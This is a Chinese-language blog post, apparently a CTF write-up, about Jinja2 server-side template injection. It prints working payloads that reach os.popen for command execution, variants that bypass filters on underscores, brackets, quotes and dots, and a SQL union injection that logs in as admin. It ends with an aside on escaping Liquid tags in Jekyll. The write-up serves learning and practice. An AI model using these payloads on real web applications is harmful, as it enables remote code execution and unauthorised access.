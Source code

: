 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - Web
  - SSTI
---
```

# 最基础的概念
这道题没有任何限制，just讲一下基本步骤
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了） 
  
这道题什么都没有过滤  
  
ls的payload:
```
{% raw %}{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}{% endraw %}
```
注意，在基类中，os所在的`site._Printer`不一定是第几个，这个题是第71个罢了。subclass可以看到所有类，慢慢找  
  
而且名字也不一定叫`site._Printer`，但长得差不多，比如校赛中的就叫`_sitebuiltins._Printer`，关键字就这么几个  
  
每个指令的作用：
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
`ls`查看的是当前目录，`ls /`查看的是根目录  
最后用`'cat fl4g'`读取文件
# 过滤了_ \[] ‘’ “”
XCTF mine1_1    
如果只过滤`[]`的话，payload长这样：
```
{% raw %}{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read(){% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
# 过滤了{% raw %}{{{% endraw %}
两个大括号连着一起会被检测，但是一个大括号莫得事  
所以我们可以用`{% assign openTag = '{%' %}{{ openTag }}print()%}`来代替
# 过滤了. +  and神一样的注入点
首先是一个sql注入，提示`login as admin`（wechall？梦开始的地方？）  
  
用户名输入`admin`密码随意，会返回登录页面，用户名随便会500  
  
  当输入`admin' union select 1,2,3,4 --`时会返回登陆页面（再次吐槽我矿ctf，order by被过滤，而且只有到4才成功，这真是运气），证明闭合了sql查询，没有登录成功，说明验证不是下面这个形式的：`select * from table where username=? and password=?`
  
  之后猜到（没错，猜到，我矿ctf的传统）是分离验证并加了md5，并且密码字段是第三个  
  ```sql
  username=test' union select 1,2,'21232f297a57a5a743894a0e4a801fc3',4 --
  password =admin
  ```
  登录成功，并看到了/info页面，改动info可以看到回显
  ![找到注入点](https://raw.githubusercontent.com/hideonsky/hideonsky.github.io/master/assets/images/SSTI/%E6%89%BE%E5%88%B0%E6%B3%A8%E5%85%A5%E7%82%B9.png)
  我们这时候直接在后面改为`{% raw %}{{}}{% endraw %}`会被检测  
  
  真正的注入点：
  ```sql
  {% raw %}username={{"test' union select 1,2,'21232f297a57a5a743894a0e4a801fc3',4 --
  password =admin
  url后面改为/inf1"  {% endraw %}
  ```
  ```url
  {% raw %}"|attr(("_","_","cla","ss","_","_")|join)|attr(("_","_","ba","se","_","_")|join)|attr(("_","_","sub","cla","sses","_","_")|join)()|attr(("_","_","ge","titem","_","_")|join)(129)|attr(("_","_","in","it","_","_")|join)|attr(("_","_","glo","bals","_","_")|join)|attr(("_","_","ge","titem","_","_")|join)(("_","_","buil","tins","_","_")|join)|attr(("_","_","ge","titem","_","_")|join)(("e","val")|join)(("_","_","imp","ort","_","_")|join)(("o","s")|join)|attr(("po","pen")|join)(("l","s")|join)|attr(("re","ad")|join)()}}{% endraw %}
  ```
# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天又用回了Jekyll  
  
这CTF打的，我渗透我自己  
解决办法{% assign openTag = '{%' %}
```
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
那么奇奇怪怪的问题又增加了  
我是怎么打出来`{{ openTag }} raw %}`而没有被执行呢
```
{% raw %}{% assign openTag = '{%' %}
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}{% endraw %}
```
打`{% raw %}{{ openTag }} raw %}{% endraw %}`的时候差点又忘了刚学的`{{ openTag }} raw %}`，吐了吐了
